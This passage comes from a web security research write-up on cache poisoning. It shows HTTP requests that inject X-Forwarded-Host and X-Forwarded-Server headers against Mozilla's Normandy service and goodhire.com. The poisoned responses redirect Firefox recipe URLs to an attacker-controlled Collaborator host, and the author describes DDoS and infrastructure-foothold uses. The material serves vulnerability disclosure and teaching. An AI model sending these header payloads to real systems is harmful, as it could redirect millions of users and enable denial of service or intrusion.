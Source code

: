 ``````http
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
``````

Recipes look something like:

``````http
[{
  "id": 403,
  "last_updated": "2017-12-15T02:05:13.006390Z",
  "name": "Looking Glass (take 2)",
  "action": "opt-out-study",
  "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",
  "filter_expression": "normandy.country in  ['US', 'CA']\n && normandy.version >= '57.0'\n)",
  "description": "MY REALITY IS JUST DIFFERENT THAN YOURS",
}]
``````

This system was using NGINX for caching, which was naturally happy to save my poisoned response and serve it to other users. Firefox fetches  this URL shortly after the browser is opened and also periodically  refetches it, ultimately meaning all of Firefox's tens of millions of  daily users could end up retrieving recipes from my website. 

This offered quite a few possibilities. The recipes used by Firefox were [signed](https://github.com/mozilla-services/autograph/tree/master/signer/contentsignature) so I couldn't just install a malicious addon and get full code  execution, but I could direct tens of millions of genuine users to a URL of my choice. Aside from the obvious DDoS usage, this would be  extremely serious if combined with an appropriate memory corruption  vulnerability. Also, some backend Mozilla systems use unsigned recipes,  which could potentially be used to obtain a foothold deep inside their  infrastructure and perhaps obtain the recipe-signing key. 

### Route poisoning

Some applications go beyond foolishly using headers to generate URLs, and foolishly use them for internal request routing

``````http
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: canary

HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
…
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
``````
